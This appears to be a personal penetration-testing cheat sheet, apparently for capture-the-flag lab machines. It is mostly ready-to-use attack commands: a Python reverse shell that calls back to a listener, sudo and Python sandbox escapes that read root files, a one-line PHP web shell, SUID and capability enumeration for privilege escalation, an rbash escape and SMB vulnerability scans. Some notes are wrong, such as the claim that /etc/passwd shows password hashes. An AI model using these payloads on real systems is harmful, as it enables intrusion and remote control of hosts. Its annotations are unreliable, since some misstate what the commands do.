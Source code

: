 # Python Shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
#used to gain root access in some systems.
```
sudo python3.5 -c ‘import os; os.system(“/bin/sh”)’
```
#command used to open up a reverse shell from the browser.
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.137",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```
python escape characters:
```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')
```
#can be used to find real host name.
```
curl -H 'Host: http://172.16.226.6' "http://172.16.226.6/'"
```
to exploit a cronjob
https://gtfobins.github.io/gtfobins/tar/

Shows the password hashes on a linux system
```
cat /etc/passwd
```
Shows the groups on a linux system
```
cat /etc/group
```
```
ls -lh /var/mail/
```
```
dpkg -l
```
Check for Suid binaries
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
```
 find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```
Lists capabilities of binaries
```
getcap -r /
```
Shows user group files
```
find / -type f -group users 2>/dev/null
```
Simple php shell:
```
<?php system($_GET['0xdf']); ?>
```
ssh tunnel:
```
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
list processes and open ports:
```
ps -aux

netstat -an
```
To escape rbash:
```
ssh mindy@10.10.10.51 -t bash
```
```
nmap --script smb-vuln* -p 445 10.10.10.4
```
```
ls /usr/share/nmap/scripts/ | grep smb | grep vuln
```
